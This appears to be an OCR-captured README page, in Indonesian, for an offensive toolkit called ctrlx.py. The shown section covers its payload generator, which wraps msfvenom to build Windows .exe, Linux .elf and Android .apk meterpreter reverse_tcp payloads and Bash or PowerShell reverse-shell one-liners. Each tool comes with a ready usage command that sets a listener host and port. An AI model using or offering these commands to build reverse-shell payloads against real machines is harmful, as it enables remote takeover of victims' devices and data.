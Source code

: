 Untuk melihat opsi parameter setiap tools:

```bash
python3 ctrlx.py <kategori> --type <tool> --help
```

---

## axt/ — Payload & Shellcode Generator

### w0x.py – Windows Payload (.exe)

Menghasilkan payload `windows/meterpreter/reverse_tcp` dengan msfvenom dan menyimpannya sebagai file `.exe`.

**Contoh Penggunaan:**

```bash
python3 ctrlx.py axt --type w0x --lhost 192.168.1.10 --lport 4444 --format exe --save
```

---

### l0x.py – Linux Payload (.elf)

Payload untuk `linux/x86/meterpreter/reverse_tcp` menggunakan msfvenom, format `.elf`.

**Contoh Penggunaan:**

```bash
python3 ctrlx.py axt --type l0x --lhost 192.168.1.10 --lport 4444 --format elf --save
```

---

### axk.py – Android Payload (.apk)

Payload berbasis `android/meterpreter/reverse_tcp`, output berupa `.apk`.

**Contoh Penggunaan:**

```bash
python3 ctrlx.py axt --type axk --lhost 192.168.1.10 --lport 4444 --save
```

---

### s1n.py – Shell Stager

Menghasilkan one-liner reverse shell untuk Bash (`bsh`) dan PowerShell (`ps1`).

**Contoh Penggunaan:**

```bash
python3 ctrlx.py axt --type s1n --platform bsh --lhost 192.168.1.10 --lport 9001 --save
```

---
